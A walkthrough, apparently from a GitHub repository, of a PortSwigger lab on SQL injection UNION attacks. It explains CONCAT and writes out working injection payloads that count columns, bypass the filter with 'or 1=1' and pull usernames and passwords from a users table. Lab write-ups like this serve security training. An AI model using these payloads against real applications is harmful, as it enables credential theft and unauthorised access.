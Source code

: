 # SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

---

### **What is CONCAT and How is it Used in SQL Injection?**

**CONCAT** is a SQL function used to combine (concatenate) two or more values into a single string. It is particularly useful in SQL injection attacks for merging multiple pieces of data into a single result when the application only displays one column.

#### **Basic Usage of CONCAT**:
```sql
SELECT CONCAT('foo', 'bar'); 
-- Result: 'foobar'
```

#### **Why Use CONCAT in SQL Injection?**
In UNION attacks, when the application returns only one column, **CONCAT** can be used to combine multiple values (e.g., `username` and `password`) into a single string. This allows attackers to extract multiple pieces of information in one query.

---

### **Steps to Perform the Attack**

#### **Step 1: Analyze the Query Structure**
By injecting the following payload:
```
/filter?category=Gifts'--
```
The application likely executes a query like:
```sql
SELECT product_name, description 
FROM products 
WHERE category = 'Gifts';
```
This query:
- Returns two columns: `product_name` and `description`.

#### **Step 2: Determine the Number of Columns**
To find the number of columns in the original query, inject:
```
/filter?category=Gifts'+union+all+select+NULL,NULL--
```
If no errors occur, the query has two columns.

#### **Step 3: Use CONCAT to Retrieve Data**
After determining that the query returns two columns, use the second column to display concatenated strings. For example:
```
/filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
```

#### **Step 4: Retrieve User Data**
To extract usernames and passwords, use:
```
/filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
```

#### **Explanation of the Query**:
1. The original query:
   ```sql
   SELECT product_name, description 
   FROM products 
   WHERE category = 'Gifts';
   ```
2. The injected query:
   ```sql
   SELECT product_name, description 
   FROM products 
   WHERE category = 'Gifts'
   UNION ALL
   SELECT NULL, CONCAT(username, ':', password) 
   FROM users;
   ```
3. Key details:
   - `NULL`: Placeholder for the first column, which isn’t relevant here.
   - `CONCAT(username, ':', password)`: Combines `username` and `password` with a colon (`:`) separator.

---

### **Valid Payloads**

#### **Initial Test Payloads**:
- Display 4 items in "Gifts" category:
  ```
  /filter?category=Gifts'--
  ```
- Display all items using a bypass:
  ```
  /filter?category=Gifts'+or+1=1--
  ```

#### **Determine Column Count**:
- Use:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL--
  ```

#### **Retrieve Concatenated Data**:
- Combine static strings:
  ```
  /filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
  ```
- Extract user credentials:
  ```
  /filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
  ```

---

### **References**

- [SQL Injection UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

--- 

### **Illustrations**

#### **Initial Display (Product Name)**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/1.png)

#### **Validating Column Count**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/2.png)

#### **Using CONCAT with Static Strings**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/3.png)

#### **Extracting User Data**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/4.png)


